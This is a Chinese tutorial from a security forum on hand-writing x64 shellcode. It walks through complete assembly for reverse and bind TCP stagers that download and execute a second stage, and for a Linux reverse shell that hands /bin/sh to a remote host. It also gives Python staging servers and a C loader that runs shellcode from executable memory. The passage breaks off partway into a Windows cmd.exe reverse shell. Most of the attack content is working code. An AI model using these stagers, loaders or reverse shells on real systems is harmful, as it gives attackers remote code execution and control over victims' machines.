# Linux Shellcode开发（Stager & Reverse Shell）-先知社区

> **来源**: https://xz.aliyun.com/news/17993  
> **文章ID**: 17993

---

# 一、环境准备

## 1.1 工具安装

在linux系统下有几个工具做的很好，比如说pwndbg和GDB Dashboard等GDB 增强工具，但是我就是喜欢用vscode将所有功能集成到一起。对于一个非开发出生的半路型网安业余选手，不能像各位大佬一样直接熟练地运用GDB 命令行调式程序，调试工具对非开发背景的人来说确实有一定门槛，但通过 **VS Code 的图形化界面​**​ 也能轻松上手。

我看到网上有很多介绍linux x86 shellcode的实现，所以本文只探究x64 shellcode的实现。

首先在kali安装vscode，参考文章：[[1]](https://blog.csdn.net/CM_STC89C52/article/details/127296320) 和[[2]](https://code.visualstudio.com/Download)

然后呢，我再安装中文插件，虽然能看懂英文，但毕竟不是母语，老是需要在脑中翻译成中文太累了。



安装C/C++扩展，这个是用来调式程序的



我习惯于在调式程序的时候查看内存的情况，特别是堆栈的情况。在网上找资料的时候发现了一个很好用的插件：MemoryView



效果如下图所示



`x86 and x86-64 Assembly` 是 VS Code 的一款汇编语言插件，支持语法高亮、代码补全



kali默认安装了GDB调式工具，可以用命令查看一下 `gdb -version`



kali也默认安装了nasm，用命令查看一下：nasm -v



## 1.2 运行配置

首先创建一个工作目录，随后用vscode打开，然后在工作目录添加一个hello.asm文件



hello.asm代码如下

```
[BITS 64]
section .text
global _start
_start:
    mov rax, 1       ; sys_write
    mov rdi, 1       ; stdout
    lea rsi, [rel msg]
    mov rdx, len
    syscall

    mov rax, 60      ; sys_exit
    xor rdi, rdi
    syscall

msg: db "Hello, Oneday!", 0
len equ $ - msg
```

配置task.json

* 按 `Ctrl+Shift+P` 弹出命令面板
* 输入 `tasks`
* 选择 `Tasks: Configure Task...` 来针对特定任务进行配置



使用模板创建tasks.json 文件



随便选一个模板



然后用下面的json代码覆盖原有的代码

```
{
  "version": "2.0.0",
  "tasks": [
    {
      "label": "nasm-build",
      "type": "shell",
      "command": "bash",
      "args": [
        "-c",
        "rm -f *.o && nasm -f elf64 -g -F dwarf ${file} -o ${fileDirname}/${fileBasenameNoExtension}.o && ld -o ${fileDirname}/${fileBasenameNoExtension} ${fileDirname}/${fileBasenameNoExtension}.o && rm -f ${fileDirname}/${fileBasenameNoExtension}.o"
      ],
      "group": { "kind": "build", "isDefault": true },
      "options": {
        "cwd": "${workspaceFolder}"
      }
    }
  ]
}
```

* `rm -f *.o`：表示删除当前工作目录下的所有的\*.o文件
* `nasm -f elf64 -g -F dwarf ${file} -o ${fileDirname}/${fileBasenameNoExtension}.o`：将汇编源代码文件（.asm）编译生成一个带调试信息的 64 位 ELF 格式目标文件（.o）
* `ld -o ${fileDirname}/${fileBasenameNoExtension} ${fileDirname}/${fileBasenameNoExtension}.o`：将汇编生成的 .o 目标文件链接成最终的可执行文件
* `rm -f ${fileDirname}/${fileBasenameNoExtension}.o`：再次删除当前工作目录下的\*.o文件，确保没有中间产物

一切准备就绪后，我们来到hello.asm界面，按住快捷键：`crtl+shift+B` 进行快速构建，如果一切顺利，会在当前工作目录下生成一个hello.elf文件



我们运行一下这个hello.elf，在终端输入：./hello



当然编写程序少不了调式环节，我们在.vscode目录下新建一个 `lanuch.json` 文件，将下面的代码复制到 `lanuch.json` 文件中。这个代码主要功能就是在当前工作目录中寻找目标程序 （由 `${fileDirname}/${fileBasenameNoExtension}` 指定）并进行调试。具体配置就用ai来解释吧。

```
{
  "version": "0.2.0",
  "configurations": [
    {
      "name": "Debug Assembly",
      "type": "cppdbg",
      "request": "launch",
      "program": "${fileDirname}/${fileBasenameNoExtension}",
      "stopAtEntry": true,
      "cwd": "${workspaceFolder}",
      "MIMode": "gdb",
      "miDebuggerPath": "/usr/bin/gdb",
      "setupCommands":  [
        { "text": "-gdb-set disassembly-flavor intel" }
      ],
      "preLaunchTask": "nasm-build"
    }
  ]
}
```

正常来说vscode只允许特定的文件下断点，为了给我们的asm文件下断点，就需要在设置->调式->勾选Allow Breakpoints Everywhere，这样我们就可以下断点啦。



一切准备就绪后，我们来到hello.asm界面，在 `mov rax, 1 ; sys_write` 处下一个断点，按住快捷键：`F5`进行快速调式，如果一切顺利，程序会停在断点处，我们可以查看寄存器的值，也可以查看内存的情况。



# 二、stager（反向TCP）

Shellcode 的实现通常依赖于系统调用（syscall），因为系统调用是用户空间程序与内核交互的唯一方式并且Shellcode通常需要独立运行，不能假设目标环境中存在 `libc` 或其他库。系统调用本质上是运行在内核态的特殊函数，windows上也有系统调用，而且从windows系统调用也延伸出重要的防御规避技术。

## 2.1 调用约定

在 Linux x86-64 架构下，系统调用（syscall）的参数传递遵循 **System V AMD64 ABI**[[3]](https://course.ccs.neu.edu/cs3650sp23/l/02/x86-64-sysv-abi.pdf)调用约定，与用户态函数调用（如 `libc` 函数）的传参方式一致。

前六个参数从左至右依次存放于 RDI，RSI，RDX，RCX，R8，R9 寄存器里面，剩下的参数通过栈传递，从右至左顺序入栈；

⚠**注意**：

1. 系统调用号保存在 `rax` 中。
2. `syscall` 指令会覆盖 `rcx`，因此不能直接用 `rcx` 传参，而应该使用 `R10` 来替代 `RCX`。
3. 因为我们使用的是`syscall`指令，不用关注`rsp`对齐，但是使用`call`调用函数之前，`rsp`必需对齐！
4. syscall返回结果如果是负数则表示发生了错误，其值表示错误码的类型

**总结**：在linux shellcode编程中，我们应该使用 RDI，RSI，RDX，R10，R8，R9，来传递前六个参数。



## 2.2 分段编写

> 代码参考msf的源码[[4]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/linux/x64/stager_sock_reverse.s)，系统调用原型参考linux的源码[[5]](https://github.com/torvalds/linux/blob/master/include/linux/syscalls.h)

**（1） 调用socket**

```
push 0x29                       ; syscall number for socket
pop rax                           ; rax = 0x29
push 2                     
pop rdi                            ; rdi = 2
push 1                        
pop rsi                            ; rsi = 1
xor rdx, rdx                    ; rdx = 0
syscall
test rax, rax                    ; 错误检查
js failure                        ; 如果为负数，则失败
push rax                        ; 保存 socket 句柄到栈上，以备后续使用
```

1. 可以看到代码中，使用push-pop来设置寄存器的值，理由：①避免00截断（此项可忽略？我看msf生成的shellcode也有00字节）；②减少shellcode体积，一般情况下push-pop比mov指令少几个字节。
2. 需要用 `rax` 来设置系统调用号，系统调用号参考linux的源码中的 `syscall_32.tbl或者syscall_64.tbl`[[6]](https://github.com/torvalds/linux/tree/master/arch/x86/entry/syscalls)
3. `js` 用于检查**符号标志位（SF）**，判断结果是否为负数。在linux系统中，当程序通过 `syscall` 调用内核功能时**正数或零**：表示成功；**负数**：表示错误，代表着对于的错误码。

**（2） 调用connect**

```
xchg rax, rdi                  ; rdi = Socket 文件描述符
mov rsi, 0x0101A8C05C110002 ; 192.168.1.1:4444, AF_INET
push rsi                         ; 将sockaddr_in 结构体保存到栈上
mov rsi, rsp                   ; rsi = 指向 sockaddr_in 结构体的指针
push 16                     
pop rdx                         ; rdx = 16（结构体大小）
push 0x2a               
pop rax                         ; syscall number for connect
syscall                     
test rax, rax                  ; 错误检查
js failure                      ; 如果为负数，则失败
```

看过我前几篇文章或者有关网络编程相关基础的师傅肯定对 `sockaddr_in` 这个结构体不陌生，我再简单的说明一下这条指令  
`mov r12,0101A8C05C110002h`，其实重点还是 `sockaddr_in` 结构体如何构造

* `0101A8C0`： C0=192, A8=168, 01=1, 01=1，即ip=192.168.1.1
* `5C11`（大端序）：端口4444
* `0002` ：表示AF\_INET（IPv4）

为什么结构体大小是16呢？我们不是只设置了8个字节（0101A8C05C110002h），还有一个字段是 `char sin_zero[8];` ，必须填充为0，不必显式填充

**（3）调用mmap分配一个可执行的缓冲区**

```
push 0x9
pop rax                        ; syscall number for mmap
xor rdi, rdi                   ; rdi = 0
push 0x2000
pop rsi                        ; rsi = 0x2000
push 7            
pop rdx                       ; rdx = 7
push 0x22
pop r10                       ; r10 = 0x22
xor r9, r9                     ; r9 = 0
syscall                     
test rax, rax                 ; 错误检查
js failure                     ; 如果为负数，则失败
```

* rdi：addr，映射的起始地址，通常为 0 表示由内核自动选择。
* rsi：length，映射区域的大小，我设置为0x2000，这个主要是根据stage的大小来设置的。
* rdx：prot，内存保护标志，我设置为 `7` 表示内存保护标志的组合，即 `PROT_READ（1）` | `PROT_WRITE（2）` | `PROT_EXEC（4）` =111（2进制）。
* r10：flags，映射类型和选项，即 `MAP_PRIVATE（0x02）` | `MAP_ANONYMOUS（0x20）` =0x22。
* r8：fd，文件描述符，当 `flags` 包含 `MAP_ANONYMOUS` 时，`fd` 参数会被忽略（通常设为 `-1` 或 `0`），故不显式设置
* r9：offset文件偏移量，匿名映射时为 0。

**（4）传输stage**

```
read_pre:
    pop rcx                       ; clear
    pop rdi                        ; rdi = socket 句柄
    xchg rax, r15              ; r15 = 缓冲区的基址
    push 0                     
    pop rax                        ; syscall number for read

read:
    mov rsi, r15                 ; rsi = 当前缓冲区指针
    mov rdx, 0x2000              ; rdx = 0x2000，即读取0x2000字节的数据
    syscall
    test rax,rax
    js  failure
```

关键代码解释

1. `pop rcx`：清除之前保存在栈上的sockaddr\_in结构体
2. `pop rdi`：获取在第一步 `调用socket` 中保存的socket 句柄
3. `mov rdx, 0x2000` 一次性读取完stage，并不能分段读取socket中的数据（可能是我水平有限，等我再研究研究o.0? :）

## 2.3 测试

首先，我们将 `1.2 运行配置` 中的hello.asm制作成bin文件，可以用010 editor，也可以用nasm，下面我将介绍使用nasm将单个asm文件生成bin文件。

```
nasm -f bin hello.asm -o hello.bin
```



然后，我们将hello.bin文件放置到python启动的服务器上，代码如下。运行该脚本，服务器会监听自己的4444端口，等待客户端连接

```
import socket
import threading

IP = '0.0.0.0'
PORT = 4444  # 修改为4444端口
SHELLCODE_FILE = 'hello.bin'  # 要传输的shellcode文件

def main():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((IP, PORT))
    server.listen(5)
    print(f'[*] Listening on {IP}:{PORT}')
    
    while True:
        client, address = server.accept()
        print(f'[*] Accepted connection from {address[0]}:{address[1]}')
        client_handler = threading.Thread(
            target=handle_client,
            args=(client,)
        )
        client_handler.start()

def handle_client(client_socket):
    try:
        # 读取shellcode文件
        with open(SHELLCODE_FILE, 'rb') as f:
            shellcode = f.read()
        
        # 发送shellcode给客户端
        client_socket.sendall(shellcode)
        print(f'[*] Sent {len(shellcode)} bytes of shellcode')
        
    except FileNotFoundError:
        print(f'[!] Error: {SHELLCODE_FILE} not found')
        client_socket.sendall(b'Error: Shellcode file not found')
    except Exception as e:
        print(f'[!] Error: {str(e)}')
    finally:
        client_socket.close()

if __name__ == '__main__':
    main()
```

在 `mov rdx, 0x2000`  下一个断点，读取数据前的效果如下



执行完syscall指令后，可以看到我们的stage已经在缓冲区了



我们直接执行shellcode.elf，而非调式，效果如下图所示



我们换ubuntu系统来执行shellcode.elf



接下来我们根据shellcode.asm直接生成shellcode.bin

```
nasm -f bin shellcode.asm -o shellcode.bin
```

一个简单的linux c语言shellcode加载器

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
#include <fcntl.h>

// 读取二进制文件到内存
unsigned char* read_binary_file(const char* filename, size_t* size) {
    FILE* file = fopen(filename, "rb");
    if (!file) {
        perror("fopen failed");
        return NULL;
    }

    // 获取文件大小
    fseek(file, 0, SEEK_END);
    *size = ftell(file);
    fseek(file, 0, SEEK_SET);

    // 分配内存
    unsigned char* buffer = (unsigned char*)malloc(*size);
    if (!buffer) {
        perror("malloc failed");
        fclose(file);
        return NULL;
    }

    // 读取文件内容
    if (fread(buffer, 1, *size, file) != *size) {
        perror("fread failed");
        free(buffer);
        fclose(file);
        return NULL;
    }

    fclose(file);
    return buffer;
}

int main() {
    size_t size;
    unsigned char* shellcode = read_binary_file("shellcode.bin", &size);
    if (!shellcode) {
        return 1;
    }

    // 分配可执行内存 (使用 mmap)
    void* exec_mem = mmap(
        NULL,
        size,
        PROT_READ | PROT_WRITE | PROT_EXEC,
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );

    if (exec_mem == MAP_FAILED) {
        perror("mmap failed");
        free(shellcode);
        return 1;
    }

    // 复制 Shellcode 到可执行内存
    memcpy(exec_mem, shellcode, size);
    free(shellcode); // 释放原始内存

    // 强制转换为函数指针并执行
    void (*func)() = (void(*)())exec_mem;
    func();

    // 释放可执行内存 (可选，如果 Shellcode 不退出程序)
    munmap(exec_mem, size);

    return 0;
}

```

编译成可执行程序

```
gcc -o shellcode_loader ./shellcode_loader.c
```



执行shellcode\_loader（确保shellcode.bin与shellcode\_loader处在同一目录）

```
chmod +x ./shellcode_loader

./shellcode_loader
```



## 2.4 完整代码

```
[BITS 64]

section .text
global _start
_start:

    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
    push 0x29                       ; syscall number for socket
    pop rax                           ; rax = 0x29
    push 2                     
    pop rdi                            ; rdi = 2
    push 1                        
    pop rsi                            ; rsi = 1
    xor rdx, rdx                    ; rdx = 0
    syscall
    test rax, rax                    ; 错误检查
    js failure                        ; 如果为负数，则失败
    push rax                        ; 保存 socket 句柄到栈上，以备后续使用

    ; 2. connect(3, {sa_family=AF_INET, LPORT, LHOST, 16)
    xchg rax, rdi                  ; rdi = Socket 文件描述符
    mov rsi, 0x0101A8C05C110002 ; 192.168.1.1:4444, AF_INET
    push rsi                         ; 将sockaddr_in 结构体保存到栈上
    mov rsi, rsp                   ; rsi = 指向 sockaddr_in 结构体的指针
    push 16                     
    pop rdx                         ; rdx = 16（结构体大小）
    push 0x2a               
    pop rax                         ; syscall number for connect
    syscall                     
    test rax, rax                  ; 错误检查
    js failure                      ; 如果为负数，则失败

    ; 3.  mmap(NULL, 8192, PROT_READ|PROT_WRITE|PROT_EXEC|0x1000, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0)
    push 0x9
    pop rax                        ; syscall number for mmap
    xor rdi, rdi                   ; rdi = 0
    push 0x2000
    pop rsi                        ; rsi = 0x2000
    push 7            
    pop rdx                       ; rdx = 7
    push 0x22
    pop r10                       ; r10 = 0x22
    xor r9, r9                     ; r9 = 0
    syscall                     
    test rax, rax                 ; 错误检查
    js failure                     ; 如果为负数，则失败

    ; 4. 传输 stage
read_pre:
    pop rcx                       ; clear
    pop rdi                        ; rdi = socket 句柄
    xchg rax, r15              ; r15 = 缓冲区的基址
    push 0                     
    pop rax                        ; syscall number for read

read:
    mov rsi, r15                 ; rsi = 当前缓冲区指针
    mov rdx, 0x2000              ; rdx = 8192 ，一次读取 8192 个字节的数据
    syscall
    test rax,rax
    js  failure

exec:
    jmp r15                    ; 跳转执行 stage
    
failure:
    push 0x3c                  
    pop rax                    ; syscall number for exit
    push 1                     
    pop rdi                    ; rdi = 1，即退出返回 1
    syscall
```

# 三、stager（正向TCP）

正向TCP应该没什么好讲的了，实在是写不出新花样了，看注释应该能明白吧？无非就是socket+bind+listen+accept+read。

## 3.1 完整代码

```
[BITS 64]
section .text
global _start
_start:
    ; ================ 1. 创建Socket ================
    ; sys_socket(domain=AF_INET, type=SOCK_STREAM, protocol=IPPROTO_TCP)
    push 0x29       ; 系统调用号41（十进制）
    pop rax         ; 加载socket系统调用号
    push 2          ; AF_INET（IPv4协议族）
    pop rdi         ; rdi = domain参数
    push 1          ; SOCK_STREAM（面向连接的TCP套接字）
    pop rsi         ; rsi = type参数
    xor rdx, rdx    ; rdx = 0（自动选择协议，此处实际为IPPROTO_TCP）
    syscall
    test rax, rax   ; 检查返回值（负数表示错误）
    js failure      ; 错误时跳转到failure标签
    push rax        ; 保存socket文件描述符到栈

    ; ================ 2. 绑定端口 ================
    xchg rax, rdi   ; rdi = socket文件描述符
    mov rsi, 0x000000005C110002 ; sockaddr_in结构体：
                    ; sin_family=0x0002(AF_INET)
                    ; sin_port=0x5C11(网络字节序的4444端口)
                    ; sin_addr=0x00000000(INADDR_ANY)
    push rsi        ; 将地址结构压栈
    mov rsi, rsp    ; rsi指向栈上的sockaddr结构体
    push 16         ; sockaddr结构体长度（16字节）
    pop rdx         ; rdx = addrlen参数
    push 49         ; sys_bind系统调用号
    pop rax
    syscall
    test rax, rax
    js failure

    ; ================ 3. 监听连接 ================
    mov rdi, [rsp+8] ; 从栈中恢复socket文件描述符
    push 128         ; backlog参数（最大挂起连接数）
    pop rsi
    push 50          ; sys_listen系统调用号
    pop rax
    syscall
    test rax, rax
    js failure

    ; ================ 4. 接受连接 ================
    mov rdi, [rsp+8] ; socket文件描述符
    xor rsi, rsi    ; 不保存客户端地址（NULL）
    xor rdx, rdx    ; 地址长度指针为NULL
    push 43         ; sys_accept系统调用号
    pop rax
    syscall
    test rax, rax
    js failure
    xchg r14, rax   ; 将新连接的文件描述符存入r14

    ; ================ 5. 清理旧socket ================
    push rdi        ; 清理栈上的地址结构
    push rdi        ; 关闭监听socket
    push 3          ; sys_close系统调用号
    pop rax
    syscall
    test rax, rax
    js failure

    ; ================ 6. 创建内存映射 ================
    push 0x9        ; sys_mmap系统调用号
    pop rax
    xor rdi, rdi    ; 地址由内核选择（NULL）
    push 0x2000     ; 映射大小8192字节
    pop rsi
    push 7          ; PROT_READ|PROT_WRITE|PROT_EXEC
    pop rdx
    push 0x22       ; MAP_PRIVATE|MAP_ANONYMOUS
    pop r10
    xor r9, r9      ; 文件描述符=0，偏移量=0
    syscall
    test rax, rax
    js failure
    xchg r15, rax   ; 将映射地址存入r15

    ; ================ 7. 接收Shellcode ================
read_pre:
    xchg rdi, r14   ; rdi = 连接socket文件描述符
read:
    mov rsi, r15    ; rsi指向映射内存
    mov rdx, 0x2000 ; 最大读取长度
    xor rax, rax    ; sys_read系统调用号
    syscall
    test rax, rax
    js failure

exec:
    jmp r15         ; 执行接收到的Shellcode

failure:
    push 0x3c       ; sys_exit系统调用号
    pop rax
    push 1          ; 退出状态码=1
    pop rdi
    syscall
```

## 3.2 测试

我们来到shellcode.asm界面，按快捷键 `ctrl+shift+B` 进行快速构建，构建完后，我们执行shellcode.elf

```
./shellcode
```

此时程序阻塞，等待连接

python客户端的代码如下，此处是客户端发送hello.bin的数据给服务器（shellcode.asm）

```
import socket

# 配置目标地址和端口
HOST = '192.168.1.32'
PORT = 4444
FILE_PATH = 'hello.bin'  # 要读取的二进制文件路径

try:
    # 从本地读取二进制文件
    with open(FILE_PATH, 'rb') as file:
        MESSAGE = file.read()  # 读取全部字节内容
    print(f"Loaded {len(MESSAGE)} bytes from {FILE_PATH}")
    
    # 创建 TCP Socket 对象
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        # 连接到目标地址和端口
        s.connect((HOST, PORT))
        print(f"Connected to {HOST}:{PORT}")
        
        # 发送文件内容
        s.sendall(MESSAGE)
        print(f"Sent {len(MESSAGE)} bytes to server")
except FileNotFoundError:
    print(f"Error: File {FILE_PATH} not found")
except ConnectionRefusedError:
    print(f"Connection to {HOST}:{PORT} refused. Is the server running?")
except Exception as e:
    print(f"Error: {str(e)}")
```



换ubuntu来测试



# 四、Linux Reverse Shell

在Linux中，反弹Shell（Reverse Shell）是一种常见的技术，通常用于合法渗透测试、远程管理。在这里我将尝试实现反弹shell的shellcode[[7]](https://medium.com/@inmune7/creating-a-shellcode-reverse-tcp-shell-1eea51c633ff)。

## 4.1 值得关注的点

反弹shell的shellcode的方式有多种，我就介绍最常用也最通用的一种方式：通过socket+connect+dup2+execve的系统调用组合

① `dup2` 是一个非常重要的系统调用，常用于 Shellcode 中实现文件描述符的重定向，特别是在反弹 Shell 场景中用于将标准输入（0）、输出（1）和错误（2）重定向到网络套接字。原型如下

```
int dup2(int oldfd, int newfd);
```

当建立一个反弹Shell时，我们需要让远程连接的套接字完全替代标准I/O：

* **标准输入(stdin, 0)**：接收攻击者输入的命令
* **标准输出(stdout, 1)**：发送命令输出结果给攻击者
* **标准错误(stderr, 2)**：发送错误信息给攻击者

没有重定向：

```
攻击者输入 -> [网络套接字] -> shell进程
shell输出 -> [原终端] （攻击者看不到）
```

有重定向：

```
攻击者输入 -> [网络套接字=stdin] -> shell进程
shell输出 -> [stdout/stderr=网络套接字] -> 攻击者
```

②`execve`系统调用，用于指定的程序替换当前进程的内存空间。在 Shellcode 开发中，`execve` 常用于启动 shell（如 `/bin/sh`），原型如下

```
int execve(const char *filename, char *const argv[], char *const envp[]);
```

③又是字符串问题

在linux shellcode开发中，我使用 `mov rdi, '/bin/sh'` 来定义字符串，然后将字符串压入栈中，如下图所示



在windows上以相同的方式定义字符串，结果却入下图所示



有没有好心的大佬告知其中的缘由啊啊啊啊啊啊啊啊啊啊啊啊!!!!!!!!!!!


## 4.2 测试

我的sockaddr\_in设置为：0x0101A8C05C110002，即192.168.1.1:4444, AF\_INET



当然也可以设置成0x0100007F5C110002，即127.0.0.1:4444, AF\_INET，然后在自己的kali上测试。



## 4.3 完整代码

```
[BITS 64]          ; 指定为64位代码
section .text      ; 代码段
global _start      ; 声明入口点
_start:
    ; ================ 1. 创建Socket ================
    ; sys_socket(domain=AF_INET, type=SOCK_STREAM, protocol=IPPROTO_TCP)
    push 0x29       ; 系统调用号41（十进制）放入栈
    pop rax         ; 将41弹出到rax（系统调用号存放寄存器）
    push 2          ; AF_INET（IPv4协议族）
    pop rdi         ; rdi = domain参数（第一个参数）
    push 1          ; SOCK_STREAM（面向连接的TCP套接字）
    pop rsi         ; rsi = type参数（第二个参数）
    xor rdx, rdx    ; rdx = 0（第三个参数，自动选择协议，实际为IPPROTO_TCP）
    syscall         ; 执行系统调用
    
    test rax, rax   ; 检查返回值（负数表示错误）
    js failure      ; 如果符号位为1（负数），跳转到failure标签
    
    push rax        ; 保存socket文件描述符到栈（后续需要复用）

    ; ================ 2. 连接目标 ================
    ; connect(3, {sa_family=AF_INET, LPORT, LHOST}, 16)
    xchg rax, rdi   ; 交换rax和rdi的值，现在rdi = socket fd
    mov rsi, 0x0100007F5C110002 ; 构造sockaddr_in结构：
                    ; 0x02 00       -> AF_INET 
                    ; 0x5C11(big)        -> 端口4444 
                    ; 0xC0A80101    -> IP 192.168.1.1
                    ; 0x00000000    -> 填充字段
    push rsi        ; 将sockaddr_in结构体保存到栈上
    mov rsi, rsp    ; rsi = 指向栈上sockaddr_in结构体的指针
    push 16         ; sockaddr_in结构体大小=16字节
    pop rdx         ; rdx = 16（第三个参数）
    push 0x2a       ; connect系统调用号42
    pop rax         ; rax = 42
    syscall         ; 执行connect
    
    test rax, rax   ; 检查返回值
    js failure      ; 如果连接失败跳转

    ; ================ 3. 文件描述符重定向 ================
    ; dup2(sockfd, 0/1/2) 将标准输入/输出/错误重定向到socket
    mov rdi, [rsp+8] ; 从栈上恢复socket文件描述符（注意栈变化）
    push 2          ; 从stderr(2)开始重定向
    pop rsi         ; rsi = 当前要重定向的文件描述符
loop_dup2:
    push 33         ; dup2系统调用号
    pop rax         ; rax = 33
    syscall         ; 执行dup2(sockfd, rsi)
    dec rsi         ; 递减文件描述符（下一步重定向stdout(1)然后stdin(0)）
    test rsi, rsi   ; 检查rsi是否≥0（SF=0表示非负数）
    jns loop_dup2   ; 如果非负数继续循环

    ; ================ 4. 启动shell ================
    ; execve("/bin/sh", NULL, NULL)
    xor rdx, rdx    ; rdx = NULL（环境变量数组）
    push rdx        ; 字符串终止符
    mov rdi, '/bin/sh' ; 准备路径字符串
    push rdi        ; 将字符串压栈
    mov rdi, rsp    ; rdi = 字符串地址（第一个参数）
    xor rsi, rsi    ; rsi = NULL（argv数组）
    push rsi        ; argv[1] = NULL
    push rdi        ; argv[0] = "/bin/sh"
    mov rsi, rsp    ; rsi = argv（第二个参数）
    push 59         ; execve系统调用号
    pop rax         ; rax = 59
    syscall         ; 执行execve

    ; ================ 错误处理 ================
failure:
    push 0x3c       ; sys_exit系统调用号60
    pop rax
    push 1          ; 退出状态码=1（表示错误）
    pop rdi
    syscall         ; 退出程序
```

# 五、Windows Reverse Shell

在网络安全探索之旅中，我偶然萌生了用汇编实现 Windows 反弹 shell 的想法，实在不想单开一篇文章，就在这里写了。反弹 shell 是一种网络攻防技术，攻击者借助此技术可在目标计算机上获取远程命令行访问权限。常见实现多基于 PowerShell，但汇编语言能深入底层，实现更隐蔽、高效的控制，刚好我这个专题或多或是涉及到汇编语言编写工具，所以Reverse Shell Shellcode孕育而生。

像Linux Reverse Shell一样，windows反弹shell的实现依赖于socket编程，刚好我在前面详细介绍过了socket编程了，咱们成热打铁，一起踏上用MASM汇编实现反弹shell的旅程吧！代码参考[[8]](https://mp.weixin.qq.com/s?__biz=MzkwMDMyOTA1OA==&mid=2247484459&idx=1&sn=a647dd68e3671534915a9d332b3b84ef&chksm=c15686eeafca8897b9d64a652f085e8ec328452411a9d58798e52d52725d5d7ff874b6d0957b#rd)，我做了必要的修改，简化了一部分流程。

大致流程如下：

1. 初始化Winsock库​
2. 使用WSASocketA函数创建Socket
3. 使用connect函数连接远程主机​
4. 创建STARTUPINFOA，重定向标准输入、输出、错误到网络套接字
5. 创建cmd进程

## 5.1 值得关注的点

第1到第3步我就不讲了，毕竟已经说过好多次了，咱们的重点应该放在后续重定向标准输入、输出、错误到网络套接字

**（1）初始化STARTUPINFOA结构体**

首先我们来看`STARTUPINFOA`结构体结体的定义[[9]](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa)：

```
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```

这里我们只用关注以下的几个字段

1. `cb`：结构体的大小（字节数），必须初始化为 `sizeof(STARTUPINFOA)`，位于偏移0的位置
2. ​ `dwFlags`：控制哪些成员有效，常用 `STARTF_USESTDHANDLES` 启用标准句柄重定向，位于偏移 `4+4（对齐用的）+8*3+4*7=60` 的位置
3. `hStdInput`：标准输出，位于偏移 `4+4（对齐用的）+8*3+4*8+2*2+4（对齐用的）+8=80`
4. `hStdOutput`：标准输入，位于偏移 `4+4（对齐用的）+8*3+4*8+2*2+4（对齐用的）+8+8=88` 的位置
5. `hStdError`：标准错误，位于偏移 `4+4（对齐用的）+8*3+4*8+2*2+4（对齐用的）+8+8+8=96` 的位置

在使用 `STARTUPINFOA` 结构体前必需进行初始化，下面的代码是自实现`memset(&si, 0, sizeof(STARTUPINFOA))`

```
sub rsp,68h
mov rdi, rsp
xor rax,rax
mov rcx, 68h
rep stosb
```

1. `sub rsp,68h`：给STARTUPINFOA结构体分配sizeof(STARTUPINFOA)大小的栈空间
2. `mov rdi, rsp`：将结构体起始地址存入 `rdi`，供 `stosb` 使用
3. `xor rax,rax`：将 `rax` 清零，`stosb` 会写入 `0`。
4. `mov rcx, 68h`：设置循环次数（68 字节）
5. `rep stosb`：`rep`重复执行 `stosb`，直到 `ecx` 减到 0。`stosb`：将 `al` 的值（这里是 `0`）写入 `edi` 指向的内存，然后 `edi` 自动 +1

清零后，我们就可以设置关键字段了

```
mov dword ptr [rsp],68h             ; si.cb = sizeof(STARTUPINFOA)
mov dword ptr [rsp + 60], 101h     ; si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
mov qword ptr [rsp + 80], r15       ; si.hStdInput = socket
mov qword ptr [rsp + 88], r15		; si.hStdOutput = socket
mov qword ptr [rsp + 96], r15       ; si.hStdError = socket
```

调式看一下清零前的栈空间，调式前请运行nc监听！在 `rep stosb0` 下一个断点



F11后



继续往下调式

si.cb = sizeof(STARTUPINFOA)



si.dwFlags = STARTF\_USESTDHANDLES | STARTF\_USESHOWWINDOW



si.hStdInput = socket，socket的句柄保存在r15中，接下来的si.hStdOutput = socket和si.hStdError = socket也是同样的方法调式。



**（2）调用CreateProcessA**

调用Windows API前需要传入参数，CreateProcessA函数原型[[10]](https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)如下

```
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```

其中我们需要关注的参数有

1. `lpCommandLine`：若为 `NULL`，则从 `lpCommandLine` 的第一个空格分隔部分解析可执行文件名，说明我们只用指定 `lpCommandLine` 位“cmd.exe”即可
2. `bInheritHandles`：若需跨进程通信（如管道重定向），设为 `TRUE`
3. `lpStartupInfo`：`STARTUPINFOA`结构体指针
4. `lpProcessInformation`：`PROCESS_INFORMATION` 结构体指针

我们来看看用汇编如何实现CreateProcessA的参数传递

```
xor rbx,rbx				; 清零，后续会用到
xor rcx,rcx				; lpApplicationName
mov rdx,'exe.dmc'
push rdx
mov rdx,rsp				; "cmd.exe"字符串指针
xor r8,r8				; lpProcessAttributes
xor r9,r9				; lpThreadAttributes

; 为 PROCESS_INFORMATION 分配空间
sub rsp, 32                 ; 分配32字节（PROCESS_INFORMATION=24 + 对齐8）
push rsp					; lpProcessInformation
push r12					; lpStartupInfo,
push rbx					; lpCurrentDirectory
push rbx					; lpEnvironment
push rbx					; dwCreationFlags
inc rbx
push rbx					; bInheritHandles
